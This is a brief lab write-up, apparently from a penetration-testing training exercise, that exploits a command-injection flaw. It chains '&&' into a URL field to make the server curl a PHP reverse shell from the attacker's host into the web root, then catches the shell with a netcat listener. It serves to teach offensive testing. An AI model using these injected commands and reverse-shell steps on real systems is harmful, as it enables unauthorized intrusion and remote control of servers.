

Will simply upload a shell and simply trigger it as most of the character's are being filtered out.
cp /usr/share/webshells/laudanum/php/php-reverse-shell.php .

and change the ip address and port accordingly
Command: https://tcm-sec.com \n wget 192.168.17.133:8080/rev.php
This command is not working anymore as we didn't get a shell

We uploadedthe shell in this step
Command: https://tcm-sec.com && curl 192.168.17.133:8080/rev.php > /var/www/html/rev.php

As you can see that we got the request

Will set up a Net-Cat listner at port 4444
Here will triggerthe Shell
As we don't know the directory path so will try couple of directories
As we got hung which means we got the rev-shell